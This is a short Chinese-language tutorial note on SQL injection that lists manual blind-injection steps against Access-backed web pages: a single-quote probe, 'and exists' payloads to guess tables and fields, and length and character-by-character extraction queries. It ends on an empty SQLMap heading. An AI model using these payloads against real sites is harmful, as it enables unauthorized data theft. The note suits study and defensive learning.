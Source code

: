 # SQL注入
利用程序未判断用户输入，从而导致用户输入的恶意sql语句会被服务器执行，导致信息泄露。

* 判断是否为注入点：在url参数后添加任意字符，比如'单引号，如若出现错误信息，则说明存在sql注入点。
* Access 判断是否存在表：and exists (select * form xxx)
* 确定表之后判断是否存在字段 ： and exists (select xxx from table)
* 判断数据长度：(select top 1 len(xxx) from table) > 10 *10为猜测长度*
* 逐位猜解敏感信息： (select top 1 asc (mid(xx,1,1)) from table) > 90 *top等价于limit，限制位数，mid 截取字符串，> 90 为ASCII编码* 

# SQLMap 使用





